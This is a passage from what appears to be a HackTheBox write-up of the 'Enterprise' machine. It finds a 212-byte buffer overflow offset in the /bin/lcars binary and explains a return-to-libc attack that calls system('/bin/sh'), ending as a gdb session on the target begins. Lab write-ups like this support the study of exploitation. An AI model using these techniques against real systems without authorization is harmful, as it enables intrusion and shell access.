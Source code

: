 

    oxdf@parrot$ pattern offset 0Ah1 250
    212
    oxdf@parrot$ pattern offset 0x31684130 250
    212



I can double check this with a string of 212 As and then four B:



    oxdf@parrot$ python -c 'print("A"*212 + "BBBB")'
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB



I'll do the same thing in `gdb`, and at the crash:

![](/img/image-20210616074240671.png)

### Return to Libc

#### Theory

I've shown return to libc attacks before, and gave a detailed
explanation in [Frolic](/htb-frolic.md#background). The
idea is that I'm going to overwrite the return address with the address
of the `system` function in libc. The next address down the stack is the
address to return from when `system` is done. This can be junk, or I can
give it the address of `exit` to cleanly end. Then I need the arguments
for `system`. I want to call `system("/bin/sh")`, so I need the address
of a "/bin/sh" string in libc.

#### Practice

I've [shown before](/htb-frolic.md#addresses) using `ldd`
to get the libc base address, then `readelf` to get the offsets of
`system` and `exit`, and `strings` to get the address of `/bin/sh`.
`readelf` isn't on Enterprise, but `gdb` is, and it can get the needed
addresses.

Drop into `gdb`:



    www-data@enterprise:/$ gdb -q /bin/lcars
    Reading symbols from lcars...(no debugging symbols found)...done.
    (gdb)



If I try to print the addresses now, `gdb` won't know them because the
program isn't started or loaded.
